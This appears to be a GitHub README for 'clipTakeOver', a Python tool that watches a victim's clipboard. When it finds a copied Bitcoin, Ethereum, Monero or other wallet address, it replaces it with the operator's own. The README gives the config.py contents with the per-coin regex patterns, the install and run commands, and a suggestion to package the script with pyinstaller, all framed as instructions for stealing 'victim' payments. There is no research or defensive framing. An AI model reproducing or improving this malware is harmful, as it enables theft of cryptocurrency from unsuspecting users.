 # clipTakeOver

clipTakeOver is cryptocurrency clipboard hijacking tool build base on regex which mean it will listen on users clipboard once the user copy his for example Bitcoin address the tools will replace it with your address .

## Installation

You need to install clipboard lib using the command below

```bash
pip install clipboard
```

## Usage

Before you running the script you need to change some stuff in config.py

```python

'''
    _set_Sleep_Time : = value (float)

    used to set up delay on checking the Clipboard Keep it low otherwise you will miss some copying 
'''
_set_Sleep_Time = 0.8

'''
    crypto_owner is dict which store your crypto address these address will replaced with 
    victim address You have to change them to your wallet public address

    if you want to target particular crypto replace the other values with empty string "" or None 

    exmaple: 

    crypto_owner = {
        "Ethereum" : "0xdafea492d9c6733ae3d56b7ed1adb60692c98bc5"
        "Bitcoin"       :    "",
        "Monero"        :    "",
        "Dash"          :    "",
        "Ripple"        :    "",
        "bitcoincash"   :    ""
    }


'''
crypto_owner = {
    "Ethereum"      :    "Ethereum wallet public address",
    "Bitcoin"       :    "Bitcoin wallet public address",
    "Monero"        :    "Monero wallet public address",
    "Dash"          :    "Dash wallet public address",
    "Ripple"        :    "Ripple wallet public address",
    "bitcoincash"   :    "bitcoincash wallet public address"
}

'''
    crypto_db_Rg is dataset used regex to match user clipboard input if clipboard match 
    any of these values it will replace it with your own wallet public address for particular crypto
    if the address regex pattern not found in the dataset the program will skip the replacments 
    for that value

    Changing the regex values may lead to False Positive In case if you want to add a new crypto 
    you must modify the crypto_owner also to accept and replace with your wallet address

    exmaple : -

    crypto_db_Rg = {
        "dogcoin" : r"your regex"
    }

    add dogcoin also to crypto_owner

    crypto_owner = {
        ....
        "dogcoin"  : "Your wallet"
    }


'''
crypto_db_Rg = {
    "Ethereum"      :    r"^0x[a-fA-F0-9]{40}$",
    "Bitcoin"       :    r"^(bc1|[13])[a-zA-HJ-NP-Z0-9]{25,39}$",
    "Monero"        :    r"^4([0-9AB]{1})([0-9a-zA-Z]{93})$",
    "Dash"          :    r"X[1-9A-HJ-NP-Za-km-z]{33}$",
    "Ripple"        :    r"^([r])([1-9A-HJ-NP-Za-km-z]{24,34})$",
    "bitcoincash"   :    r"((bitcoincash|bchreg):)?(q|p)[a-z0-9]{41}"
}



```

after that simply you could run the script as following :-

```bash
python clipTakeOver.py
```
You could also use [pyinstaller](https://pypi.org/project/pyinstaller/)

if the program show no output that mean the program running you could copy some address for testing .

## cryptocurrency support
- Bitcoin
- Ethereum
- Monero
- Dash
- Ripple
- bitcoincash

Feel Free to add more .


## License
[MIT](https://choosealicense.com/licenses/mit/)